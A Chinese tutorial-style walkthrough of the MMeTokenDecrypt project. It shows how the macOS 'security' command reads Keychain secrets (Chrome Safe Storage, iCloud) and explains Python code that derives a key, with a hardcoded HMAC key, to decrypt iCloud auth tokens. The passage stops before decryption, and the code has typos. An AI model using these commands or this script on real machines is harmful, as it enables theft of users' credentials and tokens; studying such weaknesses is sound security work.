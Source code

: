 # MMeTokenDecrypt实践操作

* 本文实践操作基于[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)项目。
* 查看翻译请访问：[MMeTokenDecrypt翻译](https://github.com/mail2chensh/OSG_Leaning/blob/master/002_MMeTokenDecrypt/MMeTokenDecrypt%E7%BF%BB%E8%AF%91.md)
* 实践者： Chensh



## 前言背景

在MacOS系统的深处，有一把神秘的小钥匙。这把密钥由44个随机字符组成，它的作用非常大。

有多大？它可以用来解开我们存储在系统里面的授权Token！

我们都知道（未读原文前我根本就不知道，😆），在MacOS里，用户的授权Token都存储在**/Users/\*/Library/Application Support/iCloud/Accounts/**这个目录下，以用户的**iCloud账号**（邮箱）为名的文件，其存储格式是**DSID**，这个文件是加密过的。

那平常系统需要用到这个文件里面存储的token的时候，是如何解密的呢？

这里涉及另外一个密钥，这个密钥存储在用户的**keyChain**里面，一个名为iCloud的条目。

系统需要解密这个DSID文件时，就会从keyChain里面拿出解密密钥，进行**base64编码**，作为**Hmac算法**的**消息体**输入，然后和上面提到的神秘小钥匙进行了**MD5加密**，得到一把新的钥匙。

而这个DSID文件，是采用128位AES的CBC加密模式加密的。CBC加密模式就是密码分组链接模式，这种模式是先将明文切分成若干小段，然后每一小段与初始块或者上一段的密文段进行异或运算后，再与密钥（也就是上面**新**产生的那把钥匙）进行加密。当然，这个过程还混合了一个空的初始化向量进行计算。

所以，根据上文的分析，只要我们找到系统的神秘小钥匙和拿到keyChain里面iCloud的存储条目，那我们就可以尝试解密DSID这个文件，拿到用户的Token。

而这里的神秘小钥匙已经被原文作者找到了并提供出来，作者在原文里主要阐述的是**keyChain里面存在的bug，导致解密密钥容易被泄露**。

那么接下来，我们就开始复现作者的思路。



## keyChain的不安全性

本来keychain作为用户存储密码的载体，应该是做到很安全的，但这里有一个原文作者认为的bug，恶意用户可以根据这个bug来绕过钥匙串密码从而拿到keychain里面存储的条目。当然，这个绕过方式是有条件的，以下分别介绍两种情况。

#### 当用户没有设防

我们首先打开keychain应用(Spotlight里面输入Keychain Access进行搜索)。

然后在左侧**种类**栏目**密码**一项进行选中，右侧就会出现存储在本机上的所有安全信息存储。这里进行筛选，找到我们的试验目标：**Chrome Safe Storage**。这个条目存储了谷歌Chrome浏览器的安全存储信息解密密钥。

![](https://ws1.sinaimg.cn/large/006tKfTcgy1fhb0jtvyiqj31kw087400.jpg)

那要如何拿到这个解密密钥呢？上文我们已经提及到了，这里打开命令行。输入以下命令：

```Shell
$ security find-generic-password -ga 'Chrome'
```

这里使用到了 security命令，它是非常强大命令行安全工具，之前我们[重签](http://chensh.top/2017/06/30/Patching-and-ReSigning-iOS-Apps/)的那篇文章里面也使用到了这个命令去查找有效的证书。

这里的参数解释如下：

* **find-generic-password** 命令参数，是使用“查找密码”的功能。
* **-a**，这个参数是匹配类型为“账户”的，用于过滤。
* **-g**，这个参数是将查询到的密码显示出来。

运行这个命令后，系统马上就会弹出一个提示框，如下：

![](https://ws2.sinaimg.cn/large/006tKfTcgy1fhb0zu1parj30ok0badhp.jpg)



那么到这里，只要用户点击了“允许”按钮，那么就可以马上得到存储在keychain里面的密钥了。如下：

![](https://ws2.sinaimg.cn/large/006tKfTcgy1fhblsp9swej30zg0ngtd0.jpg)

这里security请求钥匙串访问的权限，用户点击“允许”后，就能读取到相应的password。

假如有人未经你允许擅动你电脑，这个时候就可以轻而易举的窃取了你密码。

当然，如果是远程的恶意黑客，那么有可能会无限次弹出弹窗提示，直至逼到你点击“允许”按钮为止。

那我们该如何防范这种情况呢？请往下看。



#### 当用户开启了“询问钥匙串密码”选项

我们回到刚刚keychain 里面那个chrome safe storage的条目，右键选择**显示简介**。

切换到**访问控制**的面板，将**询问钥匙串密码**选中。

![](https://ws3.sinaimg.cn/large/006tKfTcgy1fhblzkxuz7j30ty0jkgnl.jpg)



这里有另外一个小bug，就是keychain里面的更改需要重复两次操作，才能真正的修改成功，当我们勾选了这个选项，切换到*属性*然后再切换回来的时候，发现这个选项又没有被选中，需要再重复操作一遍才行。

然后我们回到命令行，重新输入上面security的命令，这一次我们发现弹窗出来不一样了。这里需要我们输入钥匙串密码。

![](https://ws4.sinaimg.cn/large/006tKfTcgy1fhbm32ymorj30oe0b8tao.jpg)

所以当我们开启了这个选项，就算别人偷偷用你的电脑，没有你的钥匙串密码，也无法得到其中的安全信息。这里就多了一道防护。



以上的操作步骤，我们主要对是否开启钥匙串密码的安全性做一点讨论。接下来我们要使用脚本来自动获取密码，并且结合系统的神秘小钥匙，用来解密我们iCloud条目里面的Token。



## MMeToenDecrypt.py 解析

先引入所需要的库。

```python
import base64, hashlib, hmac, subprocess, sys, glob, os, binasicc
from Foundation import NSData, NSPropertyListSerialization
```

* base64用来加密iCloud的钥匙。
* hashlib用于计算md5
* subprocess用于fork一个子进程，并运行一个外部程序。



按照上面的方法，使用security命令获取iCloud条目的密码。

```Shell
security find-generic-password -ws 'iCloud'
```

* -w 参数是用于仅显示密码项。
* -s 参数是用于指定类型为server的条目，并匹配后面的关键词。

在python里面，我们可以是subprocess库来运行外部程序，将shell环境下命令运行的结果返回到本程序。如果没有获取到，则打印报错信息，再退出程序。

```python
iCloudKey = subprocess.check_output("security find-generic-password -ws 'iCloud' | awk {'print $1'}", shell=True).replace("\n", "")
if iCloudKey == "":
    print "Error getting iCloud Decryption Key"
    sys.exit()
```

得到iCloud的密码后，我们将其进行base64编码

```python
msg = base64.b64decode(iCloudKey)
```

接下来上场的是我们那把神秘的小钥匙了。

它在所有的Macos版本里面都用于生成Hmac哈希。它是用于解密的关键。

在位于**/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit**路径下的系统库，执行了下面的方法，调用了CCHmac来生成一个Hmac，用于解密秘钥。

```swift
KeychainAccountStorage _generateKeyFromData:
```

```python
key = "t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"
```

将上面得到的iCloudKey和系统神秘钥匙使用hmac进行md5计算。

并将我们得到的哈希值进行16进制转换。

```python
hashed = hmac.new(key, msg, digestmod=hashlib.md5).digest()
hexedKey = binascii.hexlify(hashed)
```

我们知道用户的授权Token都存放在**~/Library/Application Support/iCloud/Accounts/** 下，所以要遍历一下该文件夹下面的文件，判断是否为我们所需要的DSID文件。

```python
mmeTokenFile = glob.glob("%s/Library/Application Support/iCloud/Account/*" % os.path.expanduser("~"))
for x in mmeTokenFile:
    try:
        int(x.split("/")[-1])
        mmeTokenFile = x
    except:
        continue
if not isinstance(mmeTokenFile, str):
    print"Could not find MMeTokenFile. You can specify the file manually"
  	sys.exit()
else:
    print "Decrypting token plist -> [%s]\n" % mmeTokenFile
```







